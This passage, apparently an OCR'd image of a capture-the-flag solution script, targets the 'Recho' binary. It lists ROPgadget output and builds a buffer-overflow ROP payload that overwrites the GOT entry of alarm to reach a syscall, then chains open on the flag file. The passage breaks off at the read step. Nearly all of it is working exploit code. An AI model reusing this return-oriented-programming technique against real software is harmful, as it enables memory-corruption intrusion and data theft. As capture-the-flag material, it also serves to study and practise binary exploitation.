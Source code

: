 ```
print("alarm got:",hex(alarm_got))
#@Dizzzzy:~/Desktop$ ROPgadget --binary Recho --only "pop|ret"
#Gadgets information
#============================================================
#0x000000000040089c : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
#0x000000000040089e : pop r13 ; pop r14 ; pop r15 ; ret
#0x00000000004008a0 : pop r14 ; pop r15 ; ret
#0x00000000004008a2 : pop r15 ; ret
#0x00000000004006fc : pop rax ; ret
#0x000000000040089b : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
#0x000000000040089f : pop rbp ; pop r14 ; pop r15 ; ret
#0x0000000000400690 : pop rbp ; ret
#0x00000000004008a3 : pop rdi ; ret
#0x00000000004006fe : pop rdx ; ret
#0x00000000004008a1 : pop rsi ; pop r15 ; ret
#0x000000000040089d : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
#0x00000000004005b6 : ret

#@Dizzzzy:~/Desktop$ ROPgadget --binary Recho --only "add|ret"
#Gadgets information
#============================================================
#0x00000000004008af : add bl, dh ; ret
#0x00000000004008ad : add byte ptr [rax], al ; add bl, dh ; ret
#0x00000000004008ab : add byte ptr [rax], al ; add byte ptr [rax], al ; add bl, dh ; ret
#0x00000000004008ac : add byte ptr [rax], al ; add byte ptr [rax], al ; ret
#0x0000000000400830 : add byte ptr [rax], al ; add cl, cl ; ret
#0x00000000004008ae : add byte ptr [rax], al ; ret
#0x00000000004006f8 : add byte ptr [rcx], al ; ret
#0x000000000040070d : add byte ptr [rdi], al ; ret


pop_rdi_addr = 0x004008a3
pop_rsi_addr = 0x004008a1 # pop rsi ; pop r15 ; ret
pop_rax_addr = 0x004006fc
pop_rdx_addr = 0x004006fe
add_rdi_al_addr = 0x0040070d

p.recvuntil("Welcome to Recho server!\n")
p.sendline(str(0x200))

payload1 =  "a" * (0x30+8) 
#######change the got ADDR of ALARM to syscall
payload1 += p64(pop_rdi_addr).decode('unicode_escape')
payload1 += p64(alarm_got).decode('unicode_escape')#pop rdi
payload1 += p64(pop_rax_addr).decode('unicode_escape')
payload1 += p64(0x5).decode('unicode_escape')#pop rax
payload1 += p64(add_rdi_al_addr).decode('unicode_escape')#add [rdi],al

#########open("flag",READONLY);
#prototype of function:int open(const char *pathname, int flags);
#RAX:syscall name (#define __NR_open 2)
#RDI:Addr of filename str
#RSI:O_RDONLY
payload1 += p64(pop_rdi_addr).decode('unicode_escape')
payload1 += p64(flag_addr).decode('unicode_escape') #pop rdi
payload1 += p64(pop_rsi_addr).decode('unicode_escape')
payload1 += p64(0).decode('unicode_escape') #pop rsi
payload1 += p64(0).decode('unicode_escape') #pop r15
payload1 += p64(pop_rax_addr).decode('unicode_escape')
payload1 += p64(2).decode('unicode_escape') #pop rax
payload1 += p64(alarm_plt).decode('unicode_escape') #syscall

#########read(fd,bss_addr,100);
```